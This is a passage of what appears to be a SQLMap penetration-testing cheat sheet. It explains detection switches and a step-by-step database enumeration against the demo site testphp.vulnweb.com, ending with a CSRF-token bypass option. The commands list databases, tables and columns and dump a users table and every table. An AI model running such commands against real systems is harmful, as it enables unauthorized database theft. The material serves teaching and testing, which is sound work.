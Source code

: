For example, if the web application returns a status code of 500 (Internal Server Error) upon successful injection, you can specify `--code=500` to instruct SQLMap to consider this status code as confirmation of a successful injection attempt.

`sqlmap -u http://example.com/login.php --data "username=test&password=test" --code=500`

#### Titles 
If the difference between responses can be seen by inspecting the HTTP page titles. we can use `--titles` parameter.
#### Strings
In case of a specific string value appearing in `TRUE` responses (e.g. `success`), while absent in `FALSE` responses, the option `--string` could be used to fixate the detection based only on the appearance of that single value (e.g. `--string=success`).
#### Text-only
The `--text-only` switch in SQLMap is used to specify that the output generated during the scanning process should be limited to text-only format. This means that any HTML formatting or other non-textual elements will be stripped from the output, making it easier to read and parse.

`sqlmap -u http://example.com/vulnerable_page.php --text-only`

## Enum the database

1. Fetch database name.
`sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch`

2. Enum database and find out tables
`sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch`
-D : Database name.

3. Enum columns from tables.
`sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch`
-T : DBMS table to enum.

4. Get data from the table
`sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch`

5. Dump all
`sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch`

6. DB Schema Enum
`sqlmap -u "http://www.example.com/?id=1" --schema` 
Retrieve the structure of all of the tables.


## Bypassing Web Application Protections

#### Anti-CSRF Token Bypass
Some web applications employs CSRF protection mechanisms , SQLMAP might encounter issues during the scanning process, as it sends requests without the neccessary CSRF token, leading to potential errors or false negatives.

By using the `--csrf-token` parameter, you can provide SQLMap with the CSRF token required to bypass CSRF protection and conduct the scan effectively.
